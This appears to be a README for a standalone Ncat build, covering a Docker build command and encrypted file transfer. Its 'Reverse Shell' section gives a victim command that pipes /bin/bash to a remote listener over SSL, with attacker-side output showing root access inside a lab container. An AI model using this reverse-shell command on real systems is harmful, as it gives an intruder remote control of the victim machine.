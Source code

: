 # Ncat

## Build

* Use the Github action as an example or below:
```
docker build -t ncat_standalone_bullseye:$(date +%s) -f ncat_standalone/containers/debian/bullseye/Dockerfile .
```

## Transfer files

* Sender with encryption
```
./ncat --send-only --ssl 172.17.0.3 443 < test.txt
```

* Listener with encryption
```
./ncat -l 443 --ssl > test.txt
```

## Reverse Shell

* Victim
```
./ncat# ./ncat 172.17.0.3 443 --ssl -v -e /bin/bash
Ncat: Version 7.93SVN ( https://nmap.org/ncat )
Ncat: Subject: CN=localhost
Ncat: Issuer: CN=localhost
Ncat: SHA-1 fingerprint: AF56 2CA6 D608 1C41 BBA9 2775 4927 E1E6 F1B7 9D62
Ncat: Certificate verification failed (self signed certificate).
Ncat: SSL connection to 172.17.0.3:443.
Ncat: SHA-1 fingerprint: AF56 2CA6 D608 1C41 BBA9 2775 4927 E1E6 F1B7 9D62
```

* Attacker
```
./ncat --ssl -l 443 -v
Ncat: Version 7.93SVN ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: AF56 2CA6 D608 1C41 BBA9 2775 4927 E1E6 F1B7 9D62
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2:49318.
whoami
root
hostname
e1b438003141
```
